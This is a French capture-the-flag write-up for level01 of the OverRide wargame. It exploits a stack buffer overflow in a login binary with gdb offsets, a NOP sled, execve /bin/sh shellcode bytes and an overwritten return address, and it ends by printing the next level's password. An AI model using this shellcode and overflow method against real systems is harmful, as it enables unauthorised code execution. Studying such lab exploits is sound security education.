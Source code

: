 # level01

On ne voit pas d'exécution de shell présente dans le code, le programme semble servir à authentifier un utilisateur, on voit que les fonctions `verify_user_name()` et `verify_user_pass()` servent à vérifier l'utilisation d'un couple username:pass qui serait dat_wil:admin.

En revanche, on voit que même en entrant les bons identifiants, il ne se passera rien, le programme affiche `nope, incorrect password...` dans tous les cas.

On voit 2 fgets qui lisent une quantité de caractères largement supérieure à la taille des buffer dans lesquels ils stockent le résultat, on va donc chercher à exploiter un buffer overflow et injecter un shellcode.

Vu qu'on a 2 buffer, l'idée va être de stocker un shellcode dans le premier buffer, et de faire pointer `eip` sur ce shell code en écrivant en dehors du second buffer.

Afin d'arriver au 2ème buffer, on doit d'abord passer la condition qui vérifie l'username, notre premier buffer doit donc commencer par l'username attendu: `dat_wil`.

On commence par trouver l'adresse de la variable du premier buffer sur gdb:

```sh
(gdb) info variable a_user_name
All variables matching regular expression "a_user_name":

Non-debugging symbols:
0x0804a040  a_user_name
```

Puis, on cherche l'offset du 2ème buffer avec le pattern generator:

```sh
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

On trouve un offset de `80`.

On a désormais tout ce qu'il nous faut pour construire notre exploit, on va commencer par remplir notre premier buffer avec l'username, quelques NOP, et notre shellcode.

```sh
level01@OverRide:~$ echo $(perl -e 'print "dat_wil" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";') > /tmp/first
```

Puis, on construit notre 2ème buffer avec notre padding de 80, puis une adresse se situant légèrement plus loin du début de notre premier buffer pour skip l'username et tomber dans les NOP, ici on a choisi une adresse 50 adresses plus loin.

```sh
level01@OverRide:~$ echo $(perl -e 'print "A"x80 . "\x72\xa0\x04\x08";') > /tmp/second
```

Et on peut lancer notre exploit

```sh
level01@OverRide:~$ cat /tmp/second - | cat /tmp/first - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
